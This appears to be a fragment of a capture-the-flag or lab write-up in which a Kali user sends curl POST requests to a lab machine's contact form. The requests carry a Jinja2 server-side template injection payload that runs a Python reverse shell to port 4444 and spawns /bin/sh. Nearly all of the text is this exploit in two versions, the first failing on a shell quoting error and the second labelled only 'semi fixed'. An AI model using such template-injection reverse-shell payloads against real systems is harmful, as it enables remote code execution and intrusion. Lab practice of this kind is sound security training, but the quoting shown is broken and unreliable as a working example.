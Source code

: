 Error in my payload

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
zsh: parse error near `)'
```

![](corp_payloadError.png)

Time to find the typo....


semi Fixed version
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```
